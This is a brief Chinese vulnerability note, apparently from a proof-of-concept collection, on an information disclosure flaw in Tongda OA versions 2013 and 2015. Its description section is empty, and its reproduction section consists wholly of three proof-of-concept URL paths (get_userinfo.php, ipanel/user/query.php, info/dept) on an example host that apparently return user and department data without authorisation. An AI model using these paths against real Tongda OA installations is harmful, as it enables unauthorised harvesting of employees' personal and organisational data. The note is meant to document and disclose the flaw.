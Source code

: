 通达oa ⻚面敏感信息泄露
=======================

一、漏洞简介
------------

二、漏洞影响
------------

2013、2015版本

三、复现过程
------------

POC:

    http://0-sec.org/general/get_userinfo.php
    http://0-sec.org/general/ipanel/user/query.php
    http://0-sec.org/general/info/dept
